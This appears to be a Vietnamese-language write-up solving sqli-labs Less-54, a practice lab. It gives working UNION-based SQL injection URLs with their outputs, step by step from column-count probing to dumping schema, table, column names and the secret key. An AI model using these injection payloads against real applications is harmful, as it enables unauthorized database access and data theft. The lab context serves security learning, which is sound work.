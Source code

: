 - Bước 1: ID = 1

`http://10.10.10.171/sqli-labs/Less-54/index.php?id=1`

output

```
Your Login name:Dumb
Your Password:Dumb
```

- Bước 2: Sử dụng order để tìm số columns được sử dụng

```
http://10.10.10.171/sqli-labs/Less-54/index.php?id=1' ORDER BY 4 --+
http://10.10.10.171/sqli-labs/Less-54/index.php?id=1' ORDER BY 3 --+
```

=> Dừng lại ở order by 3 

- Bước 3: Dump database

`http://10.10.10.171/sqli-labs/Less-54/index.php?id=0' union select 1,2,group_concat(schema_name) from information_schema.schemata --+`

output 

```
Your Login name:2
Your Password:information_schema,challenges,mysql,performance_schema,security
```

=> chú ý vào db `challenges`

- Bước 4: Dump tables trong `challenges`

`http://10.10.10.171/sqli-labs/Less-54/index.php?id=0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges'--+`

output 

```
Your Login name:2
Your Password:OMMGMTJC4D
```

- Bước 5: Dump columns trong `OMMGMTJC4D`

`http://10.10.10.171/sqli-labs/Less-54/index.php?id=0' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='OMMGMTJC4D'--+`

output

```
Your Login name:2
Your Password:id,sessid,secret_QSLR,tryy
```

- Bước 6:

`http://10.10.10.171/sqli-labs/Less-54/index.php?id=0' union select 1,2,group_concat(secret_QSLR) from OMMGMTJC4D--+
`

output

```
Your Login name:2
Your Password:x0gmaPL2OkLnGIjp48CPKXwZ
```

Nhập `x0gmaPL2OkLnGIjp48CPKXwZ` và submit
